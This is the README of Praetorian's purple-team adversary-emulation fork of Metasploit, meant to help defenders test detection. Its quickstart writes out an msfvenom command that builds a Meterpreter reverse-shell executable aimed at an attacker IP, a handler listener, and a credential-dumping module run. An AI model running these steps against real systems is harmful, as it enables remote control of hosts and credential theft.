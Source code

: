Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-framework.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-framework) [![Maintainability](https://api.codeclimate.com/v1/badges/943e398e619c09568f3f/maintainability)](https://codeclimate.com/github/rapid7/metasploit-framework/maintainability) [![Test Coverage](https://api.codeclimate.com/v1/badges/943e398e619c09568f3f/test_coverage)](https://codeclimate.com/github/rapid7/metasploit-framework/test_coverage) [![Docker Pulls](https://img.shields.io/docker/pulls/metasploitframework/metasploit-framework.svg)](https://hub.docker.com/r/metasploitframework/metasploit-framework/)
==
The Metasploit Framework is released under a BSD-style license. See
[COPYING](COPYING) for more details.

At Praetorian, we were seeking a way to automatically emulate adversary tactics in order to evaluate detection and response capabilities. Our solution implements MITRE ATT&CK&trade; TTPs as Metasploit Framework `post` modules. As of this release, we've automated a little over 100 TTPs as modules.

Metasploit's advantage is its robust library, capability to interact with operating system APIs, and its flexible license. In addition, we're able to emulate the features of other tools such as in-memory .NET execution via leveraging Metasploit's `execute_powershell` functionality. This allows Blue Teams to ensure that their tools are alerting on the actual TTP behavior and not execution artifacts (such as encoded PowerShell).

Our solution is built on top of the latest version of Metasploit as of 09Apr2019 (pulled from: https://github.com/rapid7/metasploit-framework). We’ve made minor modifications to Metasploit’s code base to enable some of the automation. Everything should work as intended if you’re already familiar with Metasploit. The magic happens after you establish a Meterpreter session and run a TTP as a post-exploitation module.

We're open sourcing our work because we believe in solving the cybersecurity problem. By giving Blue Teams more tools to emulate adversary behavior, we hope to improve their capabilities and reduce the still very high average dwell time.

## Wiki

For detailed opertional [usage guidance](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Operational-Setup-and-Usage) and a full [list of modules](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Available-Modules) and changes, please view the [GitHub Wiki](https://github.com/praetorian-inc/purple-team-attack-automation/wiki).

## Quickstart

Installation should follow the instructions for installing a Metasploit Docker environment:
https://github.com/rapid7/metasploit-framework/tree/master/docker

In general:
 * Install Docker
 * `git clone https://github.com/praetorian-inc/purple-team-attack-automation.git`
 * Edit `./docker-compose.local.override.yml` to reflect the LHOST of your local system similar to below. By default, port 4444 will be forwarded to the docker container. If you want to use other ports, for instance to mirror HTTPS, you'll have to add them to this file.

```
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: [Your system's IP address]
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

 * Add / Remove further ports or IP addresses as you see fit. Don't forget to change the LHOST to your own IP address.
 * `docker-compose build`
 * Start the container with `./docker/bin/msfconsole`
 *	Generate a Meterpreter payload:
 ```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker IP Address> LPORT=4444 -f exe > meterpreter.exe
 ```
 *	Start and run a local listener: 
 ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <Attacker IP Address>
  set LPORT 4444
  exploit -j -z
  ```
  Copy and run meterpreter.exe on the target (“victim”) host as admin and wait for a session.
*	Run a TTP as a post-exploitation module. The list of modules is provided below. For example, to start the 'Credential Dumping (T1003)’ module, run:  
```
use modules/post/windows/purple/t1003.rb
infoset session 1
run
```

### Meterpreter Payloads

Praetorian recommends you utilize [the nightly installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) in order to run msfvenom to create your payloads.

### Common Errors

```
ERROR: Couldn't connect to Docker daemon at http+docker://localunixsocket - is it running?
```

Solved by
```
service docker start
```

## Future Work

* Integrate the container into a fork of [DetectionLab](https://github.com/clong/DetectionLab)
* Compare execution of CALDERA and MSF and how artifacts differ so we can improve adversary emulation
* Leverage the [MSFRPCD](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely) to facilitate automatic attack chaining

## Contact

If you're interested in our Purple Team services, [please reach out to us](https://www.praetorian.com/contact).

If you're an engineer looking to join our great team, we have openings at [our careers page](https://www.praetorian.com/company/careers).

## Contributing

See the [Contribution Guide](https://github.com/praetorian-inc/purple-team-attack-automation/blob/master/CONTRIBUTING.md) for a step-by-step guide to making a module.

Also, follow the [Metasploit Framework's general contributing guidelines](https://github.com/rapid7/metasploit-framework/blob/master/CONTRIBUTING.md).

## Acknowledgements

We'd like to thank various members of the security community for providing a lot of the techniques and code that we integrated into this project. 

* [MITRE ATT&CK&trade;](https://attack.mitre.org/) (Obviously)
* [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
* [@subtee](https://twitter.com/subTee)
* [LOLBAS Project](https://lolbas-project.github.io/)
* [CALDERA](https://github.com/mitre/caldera)

At Praetorian, the following engineers helped contribute modules:
* Josh Abraham `jabra [at] spl0it.org` and [@jabra](https://twitter.com/Jabra)
* Abraham Adberstein
* Tanner Harper
* Thomas Hendrickson [github.com/tomis007](github.com/tomis007)
* George Jouldjian 
* Dallas Kaman
* Blake Luther
* Matt Schneider
* Matthew Verrette
* Daniel Wyleczuk-Stern [@daniel_cybersec](https://twitter.com/Daniel_Cybersec)
